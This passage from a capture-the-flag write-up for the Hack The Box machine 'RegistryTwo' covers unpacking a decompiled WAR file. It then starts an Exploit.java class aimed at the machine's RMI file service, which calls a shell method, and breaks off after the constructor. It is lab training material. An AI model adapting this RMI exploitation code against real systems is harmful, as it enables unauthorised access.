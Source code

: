 ![registrytwo](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/registrytwo/19.png)

Then create a new directory and unzip the contents of the zip generated by `jd-gui`. We will then create another dir, and copy two directories to it, this is where we will be working from. These are the commands I ran
```
mkdir warDIR
cd warDIR
unzip hosting.war.src.zip
mkdir compile
cd compile
cp ../META-INF/MANIFEST.MF .
cp -r ../WEB-INF/classes/com .
```

After everything this is what you should see in your working dir.
```
┌──(kali㉿kali)-[~/htb/registryTwo/warDIR/compile]
└─$ ls
com  MANIFEST.MF
```

We can now create our java file that will be interacting with the service. I called it `Exploit.java`. You will need to change the `vhost` var to the name of the domain that we created in the web application. I took this code from the official walkthrough.
```java
package com.htb.hosting.rmi;

import java.io.BufferedReader;

import java.io.InputStreamReader;

import java.nio.charset.StandardCharsets;

import java.rmi.NotBoundException;

import java.rmi.RemoteException;

import java.rmi.registry.LocateRegistry;

import java.rmi.registry.Registry;

import java.util.List;

public class Exploit {

public static void main(final String[] args) throws Exception {

new Exploit().shell();

}

private final FileService svc;

public Exploit() throws RemoteException, NotBoundException {
```